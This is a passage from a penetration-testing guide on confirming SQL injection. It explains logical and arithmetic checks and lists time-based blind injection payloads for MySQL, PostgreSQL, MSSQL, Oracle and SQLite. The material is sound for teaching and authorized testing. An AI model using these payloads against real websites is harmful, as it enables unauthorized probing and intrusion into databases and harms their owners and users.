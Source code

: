 
### Confirming with logical operations

A reliable method to confirm an SQL injection vulnerability involves executing a **logical operation** and observing the expected outcomes. For instance, a GET parameter such as `?username=Peter` yielding identical content when modified to `?username=Peter' or '1'='1` indicates a SQL injection vulnerability.

Similarly, the application of **mathematical operations** serves as an effective confirmation technique. For example, if accessing `?id=1` and `?id=2-1` produce the same result, it's indicative of SQL injection.

Examples demonstrating logical operation confirmation:

```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```

This word-list was created to try to **confirm SQLinjections** in the proposed way:

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### Confirming with Timing

In some cases you **won't notice any change** on the page you are testing. Therefore, a good way to **discover blind SQL injections** is making the DB perform actions and will have an **impact on the time** the page need to load.\
Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:

```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
